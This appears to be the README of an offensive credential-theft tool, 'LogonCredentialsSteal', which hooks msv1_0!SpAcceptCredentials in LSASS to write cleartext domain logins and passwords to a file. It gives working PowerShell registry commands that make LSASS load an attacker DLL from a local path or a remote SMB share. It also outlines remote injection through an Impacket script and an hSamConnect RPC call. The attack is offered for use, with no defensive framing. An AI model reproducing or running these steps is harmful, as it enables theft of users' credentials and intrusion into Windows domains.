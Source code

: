 # LogonCredentialsSteal

LOCAL AND REMOTE HOOK msv1_0!SpAcceptCredentials from LSASS.exe and DUMP DOMAIN/LOGIN/PASSWORD IN CLEARTEXT to text file.

run powershell v1.0

New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NTDS -Name LsaDbExtPt -Value "c:\temp\lsass_lib.dll"
New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NTDS -Name LsaDbExtPt -Value "\\\\share\lulz\lsass_lib.dll"

or

To load our DLL, we can use a very simple Impacket Python script to modify the registry and 
add a key to HKLM\SYSTEM\CurrentControlSet\Services\NTDS\DirectoryServiceExtPt pointing to our DLL 
hosted on an open SMB share, and then trigger the loading of the DLL using a call to hSamConnect RPC call. 
look in remote_inject.py


will inject lib and dump any logon credentials to c:\temp\credentials.txt



thanks https://ired.team/ for research

